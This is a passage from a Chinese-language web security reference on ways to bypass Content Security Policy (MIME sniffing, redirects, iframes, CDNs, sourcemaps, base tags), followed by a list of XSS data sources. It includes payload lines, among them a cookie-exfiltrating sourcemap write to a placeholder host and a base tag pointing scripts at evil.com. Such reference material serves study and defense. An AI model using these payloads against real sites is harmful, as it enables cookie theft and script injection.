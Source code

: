 ### 3.2.3.3.2. MIME Sniff

举例来说，csp禁止跨站读取脚本，但是可以跨站读img，那么传一个含有脚本的img，再``<script href='<http://xxx.com/xx.jpg'>>``，这里csp认为是一个img，绕过了检查，如果网站没有回正确的mime type，浏览器会进行猜测，就可能加载该img作为脚本

### 3.2.3.3.3. 302跳转

对于302跳转绕过CSP而言，实际上有以下几点限制：

- 跳板必须在允许的域内。
- 要加载的文件的host部分必须跟允许的域的host部分一致

### 3.2.3.3.4. iframe

当可以执行代码时，可以创建一个源为 `css` `js` 等静态文件的frame，在配置不当时，该frame并不存在csp，则在该frame下再次创建frame，达到bypass的目的。同理，使用 `../../../` `/%2e%2e%2f`等可能触发服务器报错的链接也可以到达相应的目的。

### 3.2.3.3.5. 其他

- CND Bypass,如果网站信任了某个CDN, 那么可利用相应的CDN bypass

- Angular versions <1.5.9 >=1.5.0，存在漏洞 [Git Pull Request](https://github.com/angular/angular.js/pull/15346)

- - jQuery sourcemap

    `document.write(`<script> //@        sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);`` `

- a标签的ping属性

- For FireFox `<META HTTP-EQUIV="refresh" CONTENT="0; url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnSWhhdmVZb3VOb3cnKTs8L3NjcmlwdD4=">`

- `<link rel="import" />`

- <meta http-equiv="refresh" content="0; url=http://...." />

- - 当script-src为nonce或无限制，且base-uri无限制时，可通过 `base` 标签修改根URL来bypass，如下加载了http://evil.com/main.js

    `<base href="http://evil.com/"> <script nonce="correct value" src="/main.js"></script>`

# 3.2.4. XSS数据源

## 3.2.4.1. URL

- `location`
- `location.href`
- `location.pathname`
- `location.search`
- `location.hash`
- `document.URL`
- `document.documentURI`
- `document.baseURI`

